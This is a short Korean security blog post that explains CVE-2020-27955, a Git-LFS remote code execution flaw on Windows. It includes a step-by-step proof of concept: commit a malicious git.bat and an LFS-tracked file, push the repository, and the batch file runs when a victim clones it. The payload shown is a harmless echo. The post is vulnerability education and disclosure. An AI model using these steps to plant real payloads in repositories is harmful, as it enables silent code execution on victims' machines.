 ```yaml
---
title: "[하루한줄] CVE-2020-27955: Git-LFS RCE Exploit"
author: L0ch
tags: [L0ch, cve, git, git lfs, rce, windows]
categories: [1day1line]
date: 2020-11-06 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Git-LFS RCE Exploit CVE-2020-27955](https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html)



## Target

Git <= 2.29.2-git-lfs



## Explain

대용량 파일을 업로드 하기 위해 github에서 개발한 extension인 git-lfs(Large File Storage)에서 Windows를 대상으로 원격 코드 실행이 가능한 취약점이 발견되었습니다.

해당 취약점을 악용하여 git-lfs로 업로드한 파일이 있는 저장소에서 Windows 시스템의 피해자가 저장소를 복제할 때 상호작용 없이 공격자의 악성 바이너리가 실행될 수 있습니다.



취약점의 PoC는 아래와 같습니다.

1. 공격자는 저장소에 실행할 명령어를 포함한 `git.*` 이름의 windows 바이너리 형식 파일을 추가합니다.

   ```bash
   git.bat : @echo git-lfs RCE exploit!!
   git add git.bat 
   ```

2. 저장소에 lfs 파일을 추가합니다.

   ```bash
   git lfs track "* .dat" 
   git add .gitattributes
   
   echo "git exploit PoC"> lfs.dat
   git add lfs.dat
   ```

3. 바이너리와 lfs 파일을 커밋하고 원격 저장소에 업로드합니다.

   ```bash
   git commit -a -m "git-lfs exploit"
   git remote add origin https://repository_url
   git push -u origin master
   ```

4. Windows 시스템에서 clone할 때 git-lfs 취약점이 트리거되어 기존 git 바이너리 대신 공격자의 원격 저장소에서 clone한 악성 `git.bat`이 사용자 상호작용 없이 실행됩니다.

   ```bash
   PowerShell> git clone https://repository_url
   git-lfs RCE exploit!! 
   ```